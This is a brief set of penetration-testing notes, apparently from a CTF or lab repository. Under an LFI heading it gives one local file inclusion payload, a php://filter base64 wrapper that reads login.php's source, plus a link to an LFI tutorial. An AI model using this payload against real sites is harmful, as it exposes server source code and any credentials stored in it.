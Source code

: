 ## Notes and codes
- LFI
    - page=php://filter/convert.base64-encode/resource=login.php
    - https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601
